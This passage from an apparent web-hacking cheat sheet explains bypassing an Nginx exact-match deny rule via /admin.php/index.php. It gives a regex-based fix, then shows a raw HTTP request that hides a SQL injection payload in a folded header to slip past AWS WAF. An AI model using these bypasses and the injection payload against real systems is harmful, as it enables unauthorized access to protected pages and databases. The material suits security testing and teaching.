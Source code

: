 
## PHP-FPM
Let's consider the following Nginx FPM configuration:
```bash
location = /admin.php {
    deny all;
}

location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php8.1-fpm.sock;
}
```

It's possible to bypass it accessing /admin.php/index.php:

![php](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/24ef2f4b-1cf4-46e7-975b-ef0135043326)


## How to prevent
To prevent these issues, you must use the ~ expression Instead of the = expression on Nginx ACL rules, for example:

COPYCOPY

```bash
location ~* ^/admin {
    deny all;
}
```

## Bypassing AWS WAF ACL With Line Folding
It's possible to bypass AWS WAF protection in a HTTP header by using the following syntax where the AWS WAF won't understand X-Query header contains a sql injection payload while the node server behind will:

```html
GET / HTTP/1.1\r\n
Host: target.com\r\n
X-Query: Value\r\n
\t' or '1'='1' -- \r\n
Connection: close\r\n
\r\n
```

* [References](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)


## Tools
* [GoTestWAF](https://github.com/wallarm/gotestwaf) - A tool to test a WAF's detection logic and bypasses

